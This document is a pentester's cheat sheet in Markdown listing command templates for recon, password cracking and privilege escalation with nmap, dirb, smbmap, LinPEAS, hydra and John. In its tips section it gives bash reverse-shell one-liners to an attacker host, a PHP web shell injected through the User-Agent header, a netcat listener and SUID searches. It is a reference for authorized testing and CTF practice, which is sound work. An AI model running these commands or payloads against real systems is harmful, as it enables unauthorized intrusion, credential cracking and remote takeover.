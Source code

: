 # Pentester's Cheat Sheet
Quick reference guide to all things pentest.



## Enumeration/Recon
### Nmap
Let's look for those open ports and export the output to a specified directory using `nmap`.
```
nmap -sV -sC -vv -oN ./scan [ip_address]
```

### Dirb
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the responses. DIRB’s main purpose is to help in professional web application auditing. 
```
dirb http://[ip or domain name]/[optional directories] [path_to_wordlist]
```

### SMBMap
SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands. This tool was designed with pen testing in mind, and is intended to simplify searching for potentially sensitive data across large networks.
```
smbmap -H [ip_address]
```
If an error is returned, try the `-u` switch and declare a username.
```
smbmap -H [ip_address] -u test
```

### LinPEAS
LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.
```
# 1. Copy over the LinPEAS script over OpenSSH using ~scp~ 
scp [LinPEAS_file_path] [user]@[ip_address]:[file_path] <-- Psst! /dev/shm is a great place

# 2. Change directory to ensure file transfer was successful and set file as executable 
chmod +x [file_name].sh

# 3. Now its time to let LinPEAS work its magic and find some escalation vectors. Run the following:
./linpeas.sh | tee linlog.txt

For more information, check out LinPEAS Github: https://github.com/carlospolop/PEASS-ng/
```



## Cracking
### Hydra
Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

> Hydra ssh
```
hydra -l [username] -P [wordlist] [ip_address] ssh
```

> Hydra http-post-form
```
hydra -l [username] -P [path_to_wordlist] [target_ip] http-post-form "/[directory]:[user_param]=^USER^&[password_param]=^PASS^:[error_message]"
```

### John
John the Ripper is a tool designed to help systems administrators to find weak (easy to guess or crack through brute force) passwords, and even automatically mail users warning them about it, if it is desired.

Run private SSH key against ssh2john to produce a new hash file. Next, crack the hash using specified wordlist. This should provid 
a password for password protected private keys. 

> ssh2john

For password protected private keys, convert the RSA key into a readable hash file for John to crack. 
```
ssh2john [key_id_rsa] > [new_file_name]
```
> John
```
john [path_to_file] --wordlist=[path to wordlist]
```
### Stegcracker
Steganography brute-force utility to uncover hidden data inside files.
```
stegcracker [path_to_image] [path_to_wordlist]
```

## Exploits
### SearchSploit
Exploit Database Archive Search After locating the exploit, copy it into the current directory.
```
searchsploit -m [exploit_file_path]
```



## Basic Linux Commands

- List directory, show hidden, and permissions files
```
ls -la
```

- Change Permissions for a file or directory:
```
chmod ### [file] or [directory]
```

- Need to change a file to an executable?
```
chmod +x [path_to_file | file_name]
```

- Another way of changing permissions over a directory is:
```
chown [user_name] [dir]
```

- Find files with SUID bit set:
```
find / -perm /4000 or find / -perm -u=s -type f 2>/dev/null
```
> Or (if using is in sudoers file).
```
sudo -l
```

- Open and listen on a port using `nc`. Now you're ready to execute that reverse shell.
```
nc -lvp [port_number]
```

- Connect to Samba share using `smbclient`:
```
smbclient \\\\[ip]\\[share]
```


## Basic Windows Commmands
- List user with privileges
```
whoami /priv
```



## Random Tips & Tricks
### RSA Keys
RSA Keys only like to be read by authenticated Users. Groups and others.. not so much. Be sure to change permissions to:
```
chmod 600 [RSA_Key_file_name]
```

### User Agents
Somestimes PHP can be passed in through request headers, specifically the User-Agent. If successful we can pass in an ecoded web shell one-liner via the `c` parameter. 
```
curl [ip or domain name] -H "User-Agent:<?php system(\$_GET['c']); ?>"
```

### Interactive Shell
Maybe you need to switch users, maybe you prefer BASH - either way you need to spawn an interactive shell. Also, `echo $0` will inform you of which shell you're currently using. 
```
python -c "import pty;pty.spawn('/bin/bash')"
```

### Python HTTP Server
```
sudo python -m http.server 80
```

### Bash Reverse Shell
```
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```
> If there's a script that is executed by root, modifing the script file may be a privileg escalation vector:
```
bash -i >& /dev/tcp/[attack_ip]/[attack_port] 0>&1; 
```

### Decode Base64
```
 echo [base64_string] | base64 -d
```
